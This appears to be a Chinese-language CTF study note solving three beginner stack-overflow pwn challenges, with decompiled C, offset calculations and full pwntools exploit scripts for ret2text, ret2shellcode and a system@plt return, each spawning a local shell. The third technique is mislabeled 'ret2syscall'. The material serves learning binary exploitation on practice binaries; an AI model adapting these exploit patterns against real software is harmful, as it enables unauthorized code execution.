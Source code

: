 # pwn basic 基础练习题

`更新时间：2025-3-18`

注释解释：

- `<>`必填项，必须在当前位置填写相应数据

- `{}`必选项，必须在当前位置选择一个给出的选项

- `[]`可选项，可以选择填写或忽略

*注：该笔记内的可选项和参数均不完整，如有需要，请查询相关手册*

---

在学习了`pwn basic`基础后，可以进行一些题目的练习了，该笔记用于记录尽量完整的题目解题过程

题目链接

```
https:#pan.baidu.com/s/1vRCd4bMkqnqqY1nT2uhSYw
```

提取码`5rx6`

## level0

直接使用`IDA`反编译，查看`main()`函数

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function(1LL);
}
```

`main()`函数打印`Hello, World\n`，然后跳转`vulnerable_function()`函数，并传参`1LL`

查看`vulnerable_function()`函数

```c
ssize_t vulnerable_function()
{
  _BYTE buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

缓冲区128字节，但是读取512字节，存在缓冲区溢出，接下来查看其他函数，确认攻击类型

> <img src="./img0/1.png">

很显然`callsystem()`函数是用户自定义函数，查看其内容

```c
int callsystem()
{
  return system("/bin/sh");
}
```

 `system()`直接调用`"/bin/sh"`，可以确认题目类型是`ret2text`

然后`pwn checksec`检查启用的安全措施

> <img src="./img0/2.png">

可以看到`PIE`关闭，能够直接调用程序函数地址，进一步验证需要我们调用`callsystem()`函数。然后进行动态调试，计算溢出长度。这里需要注意，`vulnerable_function()`是由`main()`返回的，在断点时，应该断在`vulnerable_function()`，而不是`main()`

> <img src="./img0/3.png">

`rbp`相对偏移值`0x80`，加上`rbp`本身8字节，总共`0x80 + 0x8 = 0x88`字节需要溢出

然后编写攻击脚本

```py
# 导入pwntools库
from pwn import *

# 调整环境为amd64
context.arch = 'amd64'
# 设置攻击进程
sh = process('./level0')
# 开启一份程序镜像，用于寻找程序中的指定内容的地址
elf = ELF('./level0')

# 自动查找程序中函数callsystem()的地址
callsystem = elf.symbols['callsystem']
# 构建payload
# 溢出0x88个字节
# 返回地址是callsystem()函数地址
# callsystem + 1是为了栈对齐
payload = flat([cyclic(0x88), callsystem + 1])

sh.sendline(payload)
sh.interactive()
```

执行脚本，成功`getshell`

> <img src="./img0/4.png">

## level1

首先反编译

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

先调用`vulnerable_function()`，然后打印`Hello, World!\n`

显然漏洞不在`main()`，我们查看`vulnerable_function()`

```c
ssize_t vulnerable_function()
{
  _BYTE buf[136]; // [esp+0h] [ebp-88h] BYREF

  printf("What's this:%p?\n", buf);
  return read(0, buf, 256u);
}
```

`buf`缓冲区136字节，但是`read()`可以写入256字节，确定存在栈溢出漏洞

而且程序为我们打印了`buf`缓冲区的地址

然后来找有没有后门函数

> <img src="./img0/6.png">

似乎没有什么后门函数，先排除`ret2text`题型，然后我们查看程序安全性

> <img src="./img0/7.png">

栈可执行，并且拥有`rwx`段，很显然是`ret2shellcode`题型

然后进行动态调试，计算溢出长度，注意断点依然断在`vulnerable_function()`

> <img src="./img0/8.png">

`ecx`的相对偏移是`0x10`，`ebp`是`0x98`，溢出长度就是`0x98 - 0x10 + ebp(0x4) = 0x8c`字节

下面编写攻击脚本

```py
# 导入pwntools库
from pwn import *

# 设置攻击进程
sh = process('./level1')
# 获取程序暴露的buf地址，并将byte类型转换为int类型
buf_addr = int(sh.recv()[-12: -2].decode(), 16)
# 自动构建shellcode
shellcode = asm(shellcraft.sh())
# 构建payload
# 0x8c溢出长度
# 0x8c中包含shellcode的长度，因此需要使用ljust()函数来填充
# 返回地址是程序暴露的buf缓冲区的地址
payload = flat([shellcode.ljust(0x8c, b'a'), buf_addr])

sh.sendline(payload)
sh.interactive()
```

执行脚本，成功`getshell`

> <img src="./img0/9.png">

## level2

反编译

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

漏洞不在`main()`，查看`vulnerable_function()`

```c
ssize_t vulnerable_function()
{
  _BYTE buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 256u);
}
```

`buf`缓冲区136字节，`read()`写入256字节，显然存在栈溢出漏洞

`system()`调用的是`echo Input:`，没有调用`/bin/sh`，不是`ret2shellcode`

> <img src="./img0/10.png">

没有后门函数，不是`ret2text`，然后找找有没有`"/bin/sh"`字符串

> <img src="./img0/11.png">

存在`"/bin/sh"`，可以确定是`ret2syscall`题型

然后直接编写攻击脚本

```py
# 导入pwntools库
from pwn import *
# 设置攻击进程
sh = process('./level2')
# 开启一份程序镜像，用于寻找程序中的指定内容的地址
elf = ELF('./level2')

# 指定"/bin/sh"的地址，该地址可以通过IDA或者ROPgadget获取
binsh = 0x0804a024
# 获取system@plt的地址，相当于直接调用system()
system_plt = elf.plt['system']
# 构造payload
# 溢出长度0x8c
# 返回地址是system@plt
# system()的返回地址在这里没有意义，因此填充垃圾数据
# system()的参数是"/bin/sh"的地址
payload = flat([cyclic(0x8c), system_plt, b'aaaa', binsh])

sh.sendline(payload)
sh.interactive()
```

执行脚本，成功`getshell`

> <img src="./img0/12.png">

*注：本题直接使用IDA的缓冲区长度和寄存器相对位移计算溢出长度，例如`_BYTE buf[136]; // [esp+0h] [ebp-88h] BYREF`一行中，可以知道`buf`是136字节，位于`esp + 0x0`和`ebp - 0x88`字节的位置*